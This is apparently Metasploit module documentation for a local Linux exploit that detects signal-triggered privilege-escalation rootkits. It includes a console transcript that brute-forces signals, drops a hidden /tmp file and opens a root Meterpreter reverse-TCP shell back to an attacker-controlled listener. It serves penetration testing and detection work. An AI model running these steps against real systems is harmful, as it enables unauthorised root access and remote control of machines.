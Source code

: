 ## Vulnerable Application

This module searches for rootkits which use signals to elevate
process privileges to UID 0 (root).

Some rootkits install signal handlers which listen for specific
signals to elevate process privileges. This module identifies these
rootkits by sending signals and observing UID switching to root.

This module has been tested successfully with:

* [Singularity](https://github.com/MatheuZSecurity/Singularity) 5b6c4b6 (2025-10-19) on Ubuntu 24.04 kernel 6.14.0-33-generic (x64)
* [Diamorphine](https://github.com/m0nad/Diamorphine) 2337293 (2023-09-20) on Ubuntu 22.04 kernel 5.19.0-38-generic (x64)
* [Codeine](https://github.com/diego-tella/Codeine) 9644336 (2025-09-02) on Ubuntu 22.04 kernel 5.19.0-38-generic (x64)


## Verification Steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/linux/local/rootkit_privesc_signal_hunter`
4. `set SESSION [SESSION]`
5. `set PAYLOAD [PAYLOAD]`
6. `check`
7. `run`
8. You should get a new *root* session


## Options


### MIN_SIGNAL

Start at signal (default: `0`)

### MAX_SIGNAL

Stop at signal (default: `64`)

### PID

Process ID to send signals to (leave blank to spawn a new process) (default: blank)


## Scenarios

### Singularity 5b6c4b6 (2025-10-19) on Ubuntu 24.04 kernel 6.14.0-33-generic (x64)

```
msf > use exploit/linux/local/rootkit_privesc_signal_hunter
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/rootkit_privesc_signal_hunter) > set session -1
session => -1
msf exploit(linux/local/rootkit_privesc_signal_hunter) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/rootkit_privesc_signal_hunter) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(linux/local/rootkit_privesc_signal_hunter) > set lport 4444
lport => 4444
msf exploit(linux/local/rootkit_privesc_signal_hunter) > check
[+] The target is vulnerable. Rootkit(s) are installed and configured to elevate privileges for signals.
msf exploit(linux/local/rootkit_privesc_signal_hunter) > run
[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] Trying signals 0 to 64 (PID: $$) ...
[+] Found 1 signals for privilege escalation (59).
[*] Writing '/tmp/.9Z5PXuL7yw' (250 bytes) ...
[*] Trying signal 59 ...
[*] Sending stage (3090404 bytes) to 192.168.200.139
[+] Deleted /tmp/.9Z5PXuL7yw
[*] Meterpreter session 2 opened (192.168.200.130:4444 -> 192.168.200.139:41588) at 2025-10-23 11:18:25 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.200.139
OS           : Ubuntu 24.04 (Linux 6.14.0-33-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
